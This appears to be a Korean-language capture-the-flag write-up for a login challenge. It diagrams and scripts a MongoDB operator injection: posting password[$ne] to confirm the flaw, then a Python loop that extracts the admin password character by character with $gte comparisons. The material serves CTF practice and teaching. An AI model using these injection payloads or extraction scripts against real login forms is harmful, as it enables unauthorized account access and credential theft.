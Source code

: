 ================================================================================================================
[MMACTF] Get the admin password
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8 -> step10 -> step12;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9 -> step11 -> step13;
        }
        step0 -> step1[label="post_data: {user=admin&password[$ne]=1}",arrowhead="normal"];
        step3 -> step2[label="login success",arrowhead="normal"];
        step4 -> step5[label="post_data: {user=admin&password[$gte]=T}",arrowhead="normal"];
        step7 -> step6[label="login success",arrowhead="normal"];
        step8 -> step9[label="post_data: {user=admin&password[$gte]=U}",arrowhead="normal"];
        step10 -> step11[label="login fail",arrowhead="normal"];

    }

|

취약점 존재 여부 확인
================================================================================================================

- POST 로그인 페이지 취약점
- MongoDB, Blind Injection
- $ne 연산자를 통해 취약점 존재를 확인

.. code-block:: python

    import requests

    url = "http://gap.chal.ctf.westerns.tokyo/login.php"

    data = {
        "user": "admin",
        "password[$ne]":"1"
    }
    r = requests.post(url, data=data, verify=False)

    print r.content


|

무차별 대입
================================================================================================================

$gte 연산자를 이용하여 무작위 대입을 진행하여 True를 출력하는 결과를 확인합니다.

.. code-block:: python

    import requests

    url = "http://gap.chal.ctf.westerns.tokyo/login.php"

    result = ''
    while 10:
        for l in reversed(range(33,127)):
            data = {
                "user": "admin",
                "password[$gte]":result + chr(l)
            }
            r = requests.post(url, data=data, verify=False)

            if "TWCTF" in r.content:
                result += chr(l)
                print result
                break


